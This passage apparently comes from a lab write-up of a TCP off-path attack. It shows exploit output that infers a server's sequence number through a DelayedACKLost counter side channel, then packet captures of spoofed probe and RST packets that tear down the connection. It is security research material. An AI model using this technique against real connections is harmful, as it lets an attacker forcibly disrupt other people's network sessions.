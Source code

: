 And it continues:

```
[-] Sent fake probe packet from server to client with sequence 3130168330. DelayedACKLost counter on client: 136 (increased: sequence number is bigger)
[-] Sent fake probe packet from server to client with sequence 3130168331. DelayedACKLost counter on client: 136 (not increased: sequence number is smaller)
[+] Sequence number approximately: 3130168331
```

We can see that the exploit  found the correct `server`'s sequence number `3130168331`. Now we have all needed information to craft a `RST` packet: source IP, source port, destination IP, destination port, sequence number.

We then go ahead and send the 20 RST packets (I added a sleep 5 into the exploit script before sending the RSTs):

```
[+] Sending 20 RSTs with increasing sequences just in case...
[!] Connection to server on client should be reset now.
```

On the wire:

```
22:02:03.860880 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 55: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 41)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [.], cksum 0x3554 (correct), seq 3130168330:3130168331, ack 0, win 8192, length 1
22:02:03.860912 02:42:ac:15:00:03 > 02:42:ac:15:00:02, ethertype IPv4 (0x0800), length 78: (tos 0x0, ttl 64, id 16924, offset 0, flags [DF], proto TCP (6), length 64)
    172.21.0.3.7775 > 172.21.0.2.21587: Flags [.], cksum 0x5862 (incorrect -> 0x7491), seq 2538559708, ack 3130168332, win 502, options [nop,nop,TS val 2089503718 ecr 1682241151,nop,nop,sack 1 {3130168330:3130168331}], length 0

22:02:03.900913 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 55: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 41)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [.], cksum 0x3553 (correct), seq 3130168331:3130168332, ack 0, win 8192, length 1


22:02:08.936469 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 54: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 40)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [R], cksum 0x7660 (correct), seq 3130168331, win 8192, length 0
22:02:08.976457 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 54: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 40)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [R], cksum 0x765f (correct), seq 3130168332, win 8192, length 0
(...)
22:02:09.636576 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 54: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 40)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [R], cksum 0x764e (correct), seq 3130168349, win 8192, length 0
22:02:09.676331 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 54: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 40)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [R], cksum 0x764d (correct), seq 3130168350, win 8192, length 0
```
